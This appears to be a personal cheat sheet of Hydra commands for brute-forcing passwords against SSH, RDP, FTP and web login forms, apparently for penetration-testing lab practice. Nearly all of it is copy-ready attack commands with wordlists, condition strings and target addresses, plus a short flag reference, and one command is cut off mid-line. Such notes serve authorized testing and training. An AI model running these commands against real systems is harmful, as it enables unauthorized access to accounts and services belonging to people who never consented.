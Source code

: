 Use hydra to crack user george password
```c
hydra -l george -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt -s 2222 ssh://192.168.232.201
```

password crack rdp with username and password
```c
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt rdp://192.168.232.202
```

### Hydra on web application login page, ie Tiny File Manager
```c
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.232.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
in this case we know a default username is user. When we fail log in we get message on page that says "Login failed. Invalid" so we use that. This is called condition string. 

#### On a site with a popup, and no other info:
```c
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt -s 80 -f 192.168.232.201 http-get -I 
```
This was logging in via get and not post. Super easy

```c
hydra <RHOST> -l <USERNAME> -p <PASSWORD> <PROTOCOL>
hydra <RHOST> -L /PATH/TO/WORDLIST/<FILE> -P /PATH/TO/WORDLIST/<FILE> <PROTOCOL>
hydra -C /PATH/TO/WORDLIST/<FILE> <RHOST> ftp
```

```c
export HYDRA_PROXY=connect://127.0.0.1:8080
unset HYDRA_PROXY
```

```c
hydra -l <USERNAME> -P /PATH/TO/WORDLIST/<FILE> <RHOST> http-post-form "/admin.php:username=^USER^&password=^PASS^:login_error"
```

```c
hydra <RHOST> http-post-form -L /PATH/TO/WORDLIST/<FILE> "/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s <RPORT> -P /PATH/TO/WORDLIST/<FILE>

hydra <RHOST> http-form-post "/otrs/index.pl:Action=Login&RequestedURL=Action=Admin&User=root@localhost&Password=^PASS^:Login failed" -l root@localhost -P otrs-cewl.txt -vV -f

hydra -l admin -P /PATH/TO/WORDLIST/<FILE> <RHOST> http-post-form "/Account
```

### To bruteforce login pages, use hydra command paired with flags to do so:
```c
hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f <targetIP> -s <source-port> http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

#### Flags
```c
-L is for user lists
-l is for specific user
-P is password list to brute force from
-p is a password if you're trying to auth with
-/usr/share/wordlists/rockyou.txt is an example list
-run "locate usernames.txt" is another example list
-can use created wordlist to attempt from
```

#### Hydra can brute force protocols such as: FTP, SSH, HTTP
```c
hydra -L bill.txt -P william.txt -u -f ssh://<IPaddress>-t 4
hydra -L bill.txt -P william.txt -u -f ftp://<IPaddress>-t 4
hydra -L bill.txt -P william.txt -u -f <IPaddress>-t 4 -s <protocol port>
```